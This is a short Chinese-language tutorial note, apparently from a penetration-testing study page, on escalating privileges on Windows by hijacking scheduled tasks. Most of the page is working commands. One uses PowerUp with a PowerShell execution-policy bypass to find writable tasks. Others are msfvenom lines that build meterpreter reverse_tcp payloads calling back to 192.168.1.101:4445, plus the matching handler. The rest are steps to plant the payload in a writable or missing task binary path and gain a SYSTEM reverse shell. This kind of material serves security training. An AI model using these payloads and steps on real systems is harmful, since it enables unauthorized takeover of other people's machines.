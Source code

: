 ```yaml
---
title: 计划任务的提权
categories:
- windows
tags:
- windows
---
```

计划任务的提权
===
参考资料：
- [https://www.youtube.com/watch?v=Kgga91U3B4s&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=13](https://www.youtube.com/watch?v=Kgga91U3B4s&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=13)
- [https://payloads.online/archivers/2018-10-08/1#0x03-%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1%E8%AE%A1%E5%88%92%E6%8F%90%E6%9D%83](https://payloads.online/archivers/2018-10-08/1#0x03-%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1%E8%AE%A1%E5%88%92%E6%8F%90%E6%9D%83)

视频教程地址：
## 是否有可修改的计划任务

```
powershell -nop -ep bypass
Import-Module C:\Users\user\Desktop\PowerUp.ps1
Get-ModifiableScheduledTaskFile
```
如果发现了可以修改的计划任务，那么替换为恶意程序。

## 学习如何使用计划任务
**Windows+R **
taskschd.msc

新建计划任务
```
msfvenom -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4445 -f powershell -o program.ps1

handler -H 192.168.1.101 -P 4445 -p windows/x64/meterpreter/reverse_tcp

将program.ps1作为每次开机都会运行的计划任务。重启后即可获得最高权限。
```
## 消失的计划任务
autoruns  计划任务模块，提示未找到该程序
`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -w "C:\Missing Scheduled Binary\"`

## 利用漏洞

```
msfconsole
handler -H 192.168.1.101 -P 4445 -p windows/x64/meterpreter/reverse_tcp

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4445 -f exe -o program.exe
```
将program.exe放到目录`"C:\Missing Scheduled Binary\"`，重启windows

即可获得反弹shell的最高权限。
